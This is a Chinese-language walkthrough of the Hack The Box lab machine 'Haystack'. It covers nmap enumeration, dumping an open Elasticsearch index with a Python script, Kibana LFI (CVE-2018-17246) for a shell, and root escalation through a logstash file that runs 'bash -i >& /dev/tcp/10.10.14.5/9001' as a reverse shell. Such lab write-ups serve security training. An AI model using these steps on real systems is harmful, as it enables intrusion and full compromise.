

首先，是常规的nmap扫一轮
# Nmap 7.80 scan initiated Fri Feb 21 00:15:44 2020 as: nmap -sC -sV -oA ./Haystack 10.10.10.115
Nmap scan report for 10.10.10.115
Host is up (0.040s latency).
Not shown: 997 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
| 2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
| 256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_ 256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp open http nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open http nginx 1.12.2
| http-methods:
|_ Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 21 00:17:51 2020 -- 1 IP address (1 host up) scanned in 126.18 seconds
先去9200端口看一眼
root@kali:~# curl 10.10.10.115:9200
{
"name" : "iQEYHgS",
"cluster_name" : "elasticsearch",
"cluster_uuid" : "pjrX7V_gSFmJY-DxP4tCQg",
"version" : {
"number" : "6.4.2",
"build_flavor" : "default",
"build_type" : "rpm",
"build_hash" : "04711c2",
"build_date" : "2018-09-26T13:34:09.098244Z",
"build_snapshot" : false,
"lucene_version" : "7.4.0",
"minimum_wire_compatibility_version" : "5.6.0",
"minimum_index_compatibility_version" : "5.0.0"
},
"tagline" : "You Know, for Search"
}
返回了一串json，google一下，是elasticsearch的数据库，那先用url的api查询一下库名
root@kali:~# curl 10.10.10.115:9200/_cat/indices?v
health status index uuid pri rep docs.count docs.deleted store.size pri.store.size
green open .kibana 6tjAYZrgQ5CwwR0g6VOoRg 1 0 1 0 4kb 4kb
yellow open quotes ZG2D1IqkQNiNZmi2HRImnQ 5 1 253 0 262.7kb 262.7kb
yellow open bank eSVpNfCfREyYoVigNWcrMw 5 1 1000 0 483.2kb 483.2kb
第一个kibana的库里面没啥东西，第二个出来的数据是一串西班牙语，第三个里面像是一堆银行个人信息一样的1000条
然后去看一下80端口，一张草里藏针的图片，除此之外也没啥了。
那就去试试把数据库里的东西爆出来。
bank里面的数据没有密码段，那估计就只能在那一串西班牙语里面了。
按照提示，这个应该要转成英语，那就用脚本爬出来翻译掉
import requests
import json
from googletrans import Translator
url = "http://10.10.10.115:9200"
payload = "/quotes/_search?size=253"
res = requests.get(url+payload)
res_dic = json.loads(res.text)
#print(res_dic['hits'])
flag = ""
for i in res_dic['hits']['hits']:
#print(res_dic['hits']['hits'][i][')
#print(i)
tmp= i['_source']['quote']
trans = Translator(service_urls=["translate.google.cn"])
# print(flag)
print(trans.translate(tmp).text)
#trans = Translator()
# print(flag)
#print(trans.translate(flag).text)
#print(flag)
翻译出来一大长串，用grep一个一个关键词慢慢找，试出来关键词是key

base64解出来，ssh登陆进去。给了一个security的用户，先拿LinEnum扫一通。看到开了个kibana服务在5601，而且只允许本地连接，那就ssh转发出来。
版本6.4.2，正好有一个LFI漏洞
https://github.com/mpgn/CVE-2018-17246
这个洞有点奇怪，写的反弹shell的js脚本同一个名字只能执行一次，再执行要改个名字。
现在是kibana的用户，根据之前LinEnum的结果，还有一个logstash的服务在/etc/logstash下
查询权限，发现正好root权限运行，kibana可读
配置信息表示，在/opt/kibana/下logstash_开头的文件，会被执行，且内容满足
Ejecutar comando : 命令
那就直接反弹shell
Ejecutar comando : bash -i >& /dev/tcp/10.10.14.5/9001 0>$1
ok,收工